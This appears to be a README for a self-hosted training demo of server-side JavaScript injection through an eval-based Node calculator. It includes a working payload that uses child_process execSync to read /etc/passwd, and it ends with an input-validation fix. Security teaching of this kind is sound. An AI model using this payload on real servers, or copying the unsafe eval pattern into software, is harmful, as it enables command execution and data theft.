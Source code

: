 # GREETINGS AND SALUTATIONS 

This is the readme for my demo of "Serverside JS code injection"
The readme should contain a step-by-step guide on how to run the demo, and how to exploit it, preferrably with examples of expected results and stuff.

TODO: Rewrite the following sections/points to describe the SSJSi instead of CSRF. 

#NB: Everything under this is boilerplate text from the CSRF readme. To be fixed when writing my own documentation. 
1. How to run.
- Usually run with:
<code>$ node <my_project_file>.js</code>
or
<code>$ nodemon <my_project_file>.js</code>
... if you wanna monitor for changes.

2. How to use
- Depends on the project

3. How to abuse
- Depends on the project

4. How to verify result
- Depends on the project


## old_vulnerable_calc_eval.js

### Prerequisites:
Having Node installed is sufficient to run the applicaiton.
(Ithink) The application can be exploited without any extra tools

**1. How to run:**

Run the demo.js file:
<code>$ node old_vulnerable_calc_eval.js </code>

Verify from the terminal output that the execution went well

**2. How to use:**

Go to http://127.0.0.1:3000
Try to use the calculator, like writing in 1+1 or something


**3. How to abuse:**
Pick a payload from the file "exploits.js" in the repo. For example, we could start by reading the /etc/passwd file:
<code> function getFiles(){const execSync = require('child_process').execSync; const output = execSync('cat ../../../../../../etc/passwd', { encoding: 'utf-8'}); return output;} getFiles() </code>


**4. How to verify the result:**

You should see the contents of the /etc/passwd file in the browser window. If there is an error message instead, go debugging.

### **...Profit**

## Mitigation 
This vulnerability is kinda trivial to mitigate in our case. If we decide that the allowed input should only be numbers, we can add a serverside check to verify that the userinput are numbers, and then respond accordingly.  
To see an example of how this vulnerability can be mitigated, follow the guide above, but run <code>safe_calc_eval.js</code> instead.
By trying to replicate the exploit, you will get an error message instead.  
